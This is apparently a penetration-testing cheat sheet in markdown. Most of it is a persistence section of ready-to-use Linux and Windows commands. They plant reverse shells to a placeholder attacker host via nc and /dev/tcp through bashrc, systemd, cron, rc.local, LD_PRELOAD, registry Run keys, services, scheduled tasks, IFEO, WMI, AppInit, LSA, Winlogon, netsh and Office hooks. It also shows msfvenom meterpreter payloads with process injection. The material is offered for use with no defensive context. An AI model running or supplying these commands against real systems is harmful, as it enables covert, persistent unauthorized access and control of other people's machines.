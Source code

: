 # WEB

## XSS



## REVERSE
* rlwrap -cAr nc -lnvp PORT

# PERSISTANT

    ## LINUX
	
    * Autorun
		
			bash$> echo "nc attacker.tk 8888 ‐e /bin/bash 2>/dev/null &" >>~/.bashrc
			
		* Service
		
			bash#> vim /etc/systemd/system/persistence.service
			bash$> vim ~/.config/systemd/user/persistence.service
			
				[Unit]
				Description=persistence
				[Service]
				ExecStart=/bin/bash ‐c 'bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1'
				Restart=always
				RestartSec=60
				[Install]
				WantedBy=default.target
				
			bash#> systemctl enable persistence.service
			bash#> systemctl start persistence.service
			bash$> systemctl ‐‐user enable persistence.service
			bash$> systemctl ‐‐user start persistence.service
			
		* Tasks
		
			bash#> echo "* * * * * bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1" >>/var/spool/cron/root
			bash#> echo $'SHELL=/bin/bash\n* * * * * root bash ‐i >& /dev/tcp/attacker.tk/8888 0>&1\n'> /etc/cron.d/pwn
			
		* In MEMORY
		
			msfvenom ‐p linux/x86/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888 ‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999
			bash$> inject_linux PID meter32.bin
			
		* LD_PRELOAD
		
			bash#> echo /path/to/meter.so >> /etc/ld.so.preload
			bash#> echo export LD_PRELOAD=/path/to/meter.so >> /etc/profile
			bash$> echo export LD_PRELOAD=/path/to/meter.so >> ~/.bashrc
			
		* rc.local
		
			bash#> echo "nc attacker.tk 8888 ‐e /bin/bash &" >> /etc/rc.local
			
	## WINDOWS
	
		* Autorun
		
			cmd$> copy meter.exe %APPDATA%\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\
			cmd$> reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\users\username\meter.exe"
			cmd#> copy meter.exe C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup\
			cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\system32\meter.exe"
			
		* Service
		
			cmd#> sc create persistence binPath= "nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888" start= auto
			cmd#> sc failure persistence reset= 0 actions=restart/60000/restart/60000/restart/60000
			cmd#> sc start persistence
			
		* Tasks
		
			cmd#> at 13:37 \temp\nc.exe ‐e \windows\system32\cmd.exe attacker.tk 8888
			cmd#> schtasks /create /ru SYSTEM /sc MINUTE /MO 1 /tn persistence /tr "c:\temp\nc.exe ‐e c:\windows\system32\cmd.exe attacker.tk 8888"
			
		* In MEMORY
		
			msfvenom ‐p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=8888‐f raw ‐o meter32.bin exitfunc=thread StagerRetryCount=999999
			cmd$> inject_windows.exe PID meter32.bin
			
		* Debugger
		
			cmd#> copy calc.exe _calc.exe
			cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\calc.exe" /v Debugger /t reg_sz /d "cmd /C _calc.exe & c:\windows\nc.exe ‐e c:\windows\system32\cmd.exeattacker.tk 8888" /f
		
		* Gflags
		
			cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD/d 512
			cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1
			cmd#> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "nc ‐e \windows\system32\cmd.exe attacker.tk 8888"
			
		* WMI
		
			cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __EventFilterCREATE Name="persistence", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
			cmd#> wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="persistence", ExecutablePath="C:\users\admin\meter.exe",CommandLineTemplate="C:\users\admin\meter.exe"
			cmd#> wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name="persistence"", Consumer="CommandLineEventConsumer.Name="persistence""
			
		* AppInit
		
			cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f
			cmd#> reg add "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter64.dll" /f
			cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v LoadAppInit_DLLs /t reg_dword /d 0x1 /f
			cmd#> reg add "HKLM\Software\Wow6432Node\Microsoft\Windows NT\CurrentVersion\Windows" /v AppInit_DLLs /t reg_sz /d "c:\path\to\meter32.dll" /f
			
		* Lsass
		
			cmd#> reg add "HKLM\system\currentcontrolset\control\lsa" /v"Notification Packages" /t reg_multi_sz /d "rassfm\0scecli\0meter" /f
			
		* Winlogon
		
			cmd#> reg add "HKLM\software\microsoft\windows nt\currentversion\winlogon" /v UserInit /t reg_sz /d "c:\windows\system32\userinit.exe,c:\windows\meter.exe"
			
		* Netsh
		
			cmd#> c:\windows\syswow64\netsh.exenetsh> add helper c:\windows\meter32.dll
			cmd#> reg add "HKLM\Software\Microsoft\Windows\CurrentVersion\Run" /v persistence /t REG_SZ /d "C:\Windows\SysWOW64\netsh.exe"
			
		* Office
		
			cmd$> reg add "HKCU\Software\Microsoft\Office test\Special\Perf" /t REG_SZ /d C:\users\username\meter.dll

# OS

# UTILS

# LINKS


